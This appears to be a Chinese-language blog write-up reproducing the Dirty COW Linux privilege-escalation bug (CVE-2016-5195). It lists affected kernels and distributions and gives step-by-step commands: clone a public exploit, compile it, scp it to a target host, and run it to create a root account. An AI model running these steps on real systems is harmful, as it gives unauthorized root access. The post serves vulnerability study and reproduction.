 title: CVE2016-5195（dirty-cow）复现
author: 7h4mid4
tags:
  - 渗透
  - CVE
  - dirtycow
  - 提权
categories:
  - 渗透
date: 2019-08-16 20:14:00
---
今天对脏牛复现学习一下，以便于以后的使用。
## 总览
#### 漏洞范围：

Linux kernel >= 2.6.22

#### 危害：

低权限用户利用本漏洞在linux系统是实现本地提权
远程入侵获得低权限之后，才能进一步提权。

#### 影响范围：
从 2007 年发布 2.6.22 版本开始，直到2016年10月18日为止，这中间发行的所有 Linux 系统都受影响。

##### 查看方式：
```
uname -a
===> Linux AYxxxx 2.6.32-431.23.3.el6.x86_64 #1 SMP Thu Jul 31 17:20:51 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
```

##### 简单辨别：
系统 | 版本
---|---
Centos | 5.8
CentOS | 5.1
Centos | 6.5
Centos | 7
Centos | 7.2
ubuntu | 12.04
ubuntu | 14.04
Debain | 6.0.9
Debain | 7.5.0
Debain | 8.0.4

## 利用方式

### 本地编译dirtycow发送至目标机

```
git clone https://github.com/FireFart/dirtycow.git

cd dirtycow

gcc -pthread dirty.c -o dirty -lcrypt

scp dirty test@192.168.165.224:/home/test/dirty

```

### ssh连接后创建root用户

```
ssh test@192.168.165.224

./dirty asdfg(root_user_passwd)
//waiting......

su firefart
```

Congratulations！！

当然，更多的还是现场尝试，因为很多的系统已经修复漏洞。
